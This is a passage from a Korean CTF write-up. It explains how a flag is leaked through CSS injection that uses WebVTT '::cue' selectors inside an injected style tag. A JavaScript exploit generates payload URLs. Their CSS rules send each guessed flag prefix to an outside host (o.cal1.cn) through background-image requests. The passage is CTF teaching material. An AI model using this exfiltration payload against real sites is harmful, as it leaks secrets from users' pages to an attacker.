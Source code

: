 그리고 `<stlye>`태그안에 `::cue`로 FLAG를 CSS injection으로 유출합니다.

#### exploit
```js
let base = 'https://ytiruces.ctfpunk.com';
let base2 = '/?content=%3Cvideo%20muted%20autoplay%20controls%20src=//o.cal1.cn/s.mp3%3E%3Ctrack%20default%20src=%22/flag?name=WEBVTT%250d00:00.000--%3E00:30.000%250d%3Cv%22/%3E%3Cstyle%3E$CSS$%3C/style%3E%3C/video%3E';

let genCSS = (known,u)=>{
    let pool = [
       [...'abcdefghi'], 
       [...'jklmnopqr'], 
       [...'stuvwxyz'], 
       [...'ABCDEFGHI'], 
       [...'JKLMNOPQR'], 
       [...'STUVWXYZ}'],
   ];
    let ret = '';
    for (let i of pool[u]) {
        ret += `::cue(v[voice^=%22${known}${i}%22]){background:url(//o.cal1.cn/?${known}${i})}`
    }
    return ret
}

let known = 'n1ctf{';

console.log([
    base + base2.replace('$CSS$', genCSS(known, 0)),
    base + base2.replace('$CSS$', genCSS(known, 1)),
    base + base2.replace('$CSS$', genCSS(known, 2)),
    base + base2.replace('$CSS$', genCSS(known, 3)),
    base + base2.replace('$CSS$', genCSS(known, 4)),
    base + base2.replace('$CSS$', genCSS(known, 5)), 
])

```


참고로 거의 비슷한 기법이 ASIS CTF 2021 본선에서 classic이란 문제로 등장했었습니다.
- [ASIS 2021 final web classic](https://github.com/sajjadium/ctf-archives/tree/main/ctfs/ASIS/2021/Finals/web/classic/stuff) 

- [parrot409-poc for classic](https://gist.github.com/parrot409/34194eb82b32e36d2a96d0bf3115a901)

상황자체는 조금 다르지만 기법 자체는 비슷해 보입니다. 

여담이지만 저의 경우 2024년에 진행한 YISF(순천향대 청소년 정보보호 페스티벌) 예선에 해당 기법을 이용한 문제를 출제하였습니다.

[cinema](https://dreamhack.io/wargame/challenges/1380)란 문제로, 현재 드림핵에 포팅되어 있으니 기법을 이해하셨으면 직접 한번 풀어보는 것을 추천하겠습니다.

---

### comment
CTF에서 나온 새롭고 창의적인 기법들을 이해한 뒤 문서로 정리하는 작업이 힘들지만 재밌었습니다.
